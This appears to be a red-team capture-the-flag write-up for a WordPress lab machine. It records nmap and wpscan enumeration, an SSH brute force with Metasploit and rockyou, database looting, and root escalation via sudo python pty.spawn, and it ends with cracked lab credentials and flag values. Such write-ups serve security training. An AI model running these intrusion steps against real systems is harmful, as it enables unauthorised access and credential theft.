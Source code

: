 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV -O 192.168.1.110`

![Initial Nmap Scan](Images/InitialNmapScan.png "Nmap Scan")

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP: OpenSSH
  - Port 80/TCP: Apache web server
  - Port 111/TCP: rpcbind
  - Port 139/TCP: Samba smbd
  - Port 445/TCP: Samba smbd

The following vulnerabilities were identified on each target:
- Target 1
  - Wordpress server is vulnerable to user enumeration
  - Wordpress and ssh server have weak passwords
  - MySQL password is stored in plain text
  - Wordpress hashes are stored unsalted
  - Steven user account has sudo permissions for Python

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - Start with a user enumeration of the Wordpress website using Wpscan
        - `wpscan --url http://192.168.1.110/wordpress --enumerate u`
        - ![WPScan](Images/Wpscan.png "WPScan")
      - Using the ssh module in Metasploit we will break into Michael's account
        - `msfconsole`
        - `search ssh`
        - `use auxiliary/scanner/ssh/ssh_login`
        - `show options`
        - `set username michael`
        - `set user_as_pass true`
        - `set pass_file /usr/share/wordlists/rockyou.txt`
        - `set rhosts 192.168.1.110`
        - `set rport 22`
        - `set stop_on_success true`
        - ![Metasploit](Images/Metasploit.png "Metasploit SSH Cracker") 
        - Michael's password is michael
      - Now that we have access to Michael's account we ssh in and search the website filed for the first flag
        - `ssh michael@192.168.1.110`
        - `cd /var/www/html`
        - `grep -nr 'flag1'`
        - ![flag1](Images/flag1.png "First flag") 
  - `flag2`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - We have the ssh login for Michael from the first flag so we login with that again and run a find command to locate any files named flag
        - `ssh michael@192.168.1.110`
        - `find / -iname '*flag*' -type f -print 2>/dev/null`
        - ![flag2 location](Images/flag2Location.png "Second flag location") 
        - We now know it is stored in /var/www/flag2.txt
        - `cat /var/www/flag2.txt`
        - ![flag2](Images/flag2.png "Second flag") 
  - `flag3`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Found the MySQL password in wp-config.php
	  - Searched the posts in wp_posts for flag
      - select post_content from wp_posts where post_content like '%flag%';
  - `flag4`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Logged into Steven after cracking the password hash from mysql
	  - escalated to root using sudo python -c 'import pty; pty.spawn("/bin/sh")'
      - find / -iname '*flag*' -type f
	  
	  
	  
steven:pink84
michael:michael
mysql
	root:R@v3nSecurity
